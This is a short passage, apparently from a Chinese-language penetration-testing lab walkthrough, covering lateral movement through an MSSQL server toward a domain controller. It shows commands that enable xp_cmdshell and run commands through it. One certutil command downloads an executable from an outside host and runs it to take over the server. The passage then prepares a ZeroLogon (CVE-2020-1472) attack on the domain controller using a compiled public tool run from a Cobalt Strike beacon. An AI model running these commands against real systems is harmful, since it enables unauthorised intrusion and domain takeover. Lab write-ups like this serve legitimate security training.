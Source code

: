 ```bash
enable_xp_cmdshell
# 执行命令
xp_cmdshell whoami
```

4、执行命令

<img src=".\图片\Snipaste_2023-05-22_18-41-11.png" alt="Snipaste_2023-05-22_18-41-11" style="zoom:67%;" />

5、执行命令远程下载 exe 并且执行得到 server2012 权限 mssql 用户的权限（不出网的话可能也可从上一台的机器的web网站上下载）

```
xp_cmdshell certutil -urlcache -split -f http://www.lianqing.xyz/artifact.exe c:/windows/temp/artifact.exe
xp_cmdshell c:/windows/temp/artifact.exe
```

## 提权

土豆家族提权，不演示

# 第三台ad01

ZeroLogon CVE-2020-1472 攻击域控 获取域权限

## 步骤

下载 https://github.com/leitosama/SharpZeroLogon 进行编译执行 测试存在该漏洞

以下操作在cd 的 beacon 里使用
